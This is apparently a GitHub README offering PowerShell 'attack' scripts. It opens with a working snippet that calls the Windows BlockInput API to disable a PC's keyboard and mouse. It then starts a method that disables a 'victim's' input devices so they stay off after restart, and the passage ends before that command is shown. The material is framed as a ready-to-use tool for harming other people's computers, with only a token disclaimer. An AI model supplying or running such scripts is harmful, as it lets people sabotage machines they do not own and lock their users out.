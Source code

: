 ## Powershell Scripts for Automate Attacks 


This Module contains ps code that are used to automate your attacks and make Fun !<br>
There are 3 Modules that contains scripts ..!<br>
Each Contains 10 Scripts with Definition
<br>

# Module 1 PS-10
#### Note: I Have More script's to test then i will post once if worked .Please be Patient and i will try to upload one by one (Working Scripts)
### ⚠️ Warning ⚠️
**Test The scripts in virtual Environments . Am not responsible if any error or damage occures to your main**

<br>

#### 1. A NEW WAY TO DISABLE WINDOWS 10 AND 11 KEYBOARD AND MOUSE INPUT ( JUNE 2023 )

```
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;

public class InputBlocker
{
    [DllImport("user32.dll")]
    public static extern bool BlockInput(bool fBlockIt);
}

"@

# Disable keyboard and mouse input
[InputBlocker]::BlockInput($true)
```
Run the above script as Admin Shell , If the output is false then the shell is not admin 
If the output is true then the mouse and keyboard has disable successfully , this can be fixed by restarting the PC .

**Down below that works works on windows 10(some) Windows 8 and lower versions ...**

1.Disable windows Keyboard and Mouse input. <br>

**NOTE : The Disable command will take action once the user has restarted his computer. If this command is Executed without any error . Say Bye to his PC ;)**

<br>
Before that we need to know the InstanceID of the Victim id .
<br><br>
To do That .
<p>Enter the Command :</p> 
